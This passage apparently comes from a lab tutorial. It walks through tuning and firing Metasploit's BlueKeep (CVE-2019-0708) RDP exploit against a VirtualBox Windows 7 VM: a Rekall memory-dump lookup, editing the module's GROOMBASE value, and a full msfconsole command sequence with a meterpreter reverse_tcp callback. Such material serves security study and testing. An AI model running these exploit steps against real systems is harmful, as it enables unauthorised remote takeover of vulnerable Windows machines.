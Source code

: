 Once you are ready with one of the above **Rekall** setup option, simply execute the below command to extract the information we need from our VM memory dump we previously created.

**Usage**

```bash
rekall -f /path/to/your/dump/file.memdump pools
```

**Output**

![image-7](https://raw.githubusercontent.com/neoslab/tutorials/master/medias/ef414d05cfbab3c223121f74b2a840d0-7.png "Image-7")

Waoohh !! It seems we finally found what we were looking for !! Highlighted we can see the "Start" address of the **NonPagedPool** that Rekall extracts from the memory dump of our virtual machine. We can now copy this value to edit the **GROOMBASE** parameter of the Metasploit exploit.

* * *

###### SETUP YOUR EXPLOIT

Depending on the operating system you are using, the path to your Metasploit directory may be different from the example described below. To find out the path of your **Metasploit** you can use the `locate` command.

```bash
sudo nano /opt/metasploit-framework/embedded/framework/modules/exploits/windows/rdp/cve_2019_0708_bluekeep_rce.rb
```

Find the below line and replace the **GROOMBASE** with the one you found in the previous step.

```bash
# This works with Virtualbox 6
'Windows 7 SP1 / 2008 R2 (6.1.7601 x64 - Virtualbox 6)',
{
 'Platform' => 'win',
 'Arch' => [ARCH_X64],
 'GROOMBASE' => 0xfffffa8001804000
}
```

**Important**: Rekall removes four 'f' at the beginning of the address string so you must add it manually to get 18 characters of length. When you are done with your file, use CTRL + x to save it, then reload all Metasploit modules using the below command.

```bash
msf5 > reload_all
```

You are all done !! You can start over the process of your attack on Metasploit as you did earlier but now we will also specify the **GROOMSIZE** value.

```bash
msfconsole
msf5 > use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set RHOSTS 192.168.1.105
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set LHOST 192.168.1.102
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set LPORT 4444
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set TARGET 2
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > set GROOMSIZE 200
msf5 exploit(windows/rdp/cve_2019_0708_bluekeep_rce) > exploit
```
